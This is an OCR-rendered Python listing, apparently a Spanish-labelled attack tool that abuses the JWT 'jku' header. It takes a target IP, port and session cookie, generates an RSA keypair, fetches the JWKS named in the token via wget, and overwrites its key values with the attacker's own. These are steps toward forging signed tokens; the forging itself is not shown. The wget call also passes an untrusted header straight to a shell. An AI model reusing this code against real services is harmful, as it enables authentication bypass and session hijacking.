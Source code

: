 ```python
def requirements():
    printRed("\n\n[!] Requirements!\n")
    printGreen("\t[+] pip install jwcrypto\n")
    printGreen("\t[+] pip install PyJWT\n")

#colors
printRed = lambda s: cprint(s, 'red', end=' ')
printYellow = lambda s: cprint(s, 'yellow', end=' ')
printMagenta = lambda s: cprint(s, 'magenta', end=' ')
printGreen = lambda s: cprint(s, 'green', end=' ')

#panel_help
def help():
    printYellow("\n[*] Uso : ")
    printMagenta(f"python3 {sys.argv[0]} <ip_address> <port> <cookie_session>")
    requirements()
    exit(1)  

#valid_input
if len(sys.argv) != 4: help()

#global variables
ip = sys.argv[1]
port = sys.argv[2]
user_token = sys.argv[3]

#create keys
def gen_key():
    subprocess.run(['openssl', 'genrsa', '-out', 'keypair.pem', '2048'], stdout=subprocess.DEVNULL, stderr=subprocess.STDOUT)

#remove files 
def remove_files():
    subprocess.run(['rm', 'keypair.pem', 'jwks.json'])

#get header token
def get_headers():
    headers = jwt_header.get_unverified_header(user_token)
    return headers

#decode user_token
def download_json():
    headers = get_headers()
    jku = headers['jku']
    os.system(f"wget {jku} 2>/dev/null")

#create new json
def create_json(key):
    with open("jwks.json", "r") as jsonfile:
        data = json.load(jsonfile)
    data['keys'][0]['kid'] = key.kid
    data['keys'][0]['n'] = key.n
    data['keys'][0]['e'] = key.e

    with open("jwks.json", "w") as jsonfile:
            json.dump(data, jsonfile)

#get data token
def get_data_key():
    with open("keypair.pem", "rb") as pemfile:
        key = jwk_crypt.JWK.from_pem(pemfile.read())
    return key

```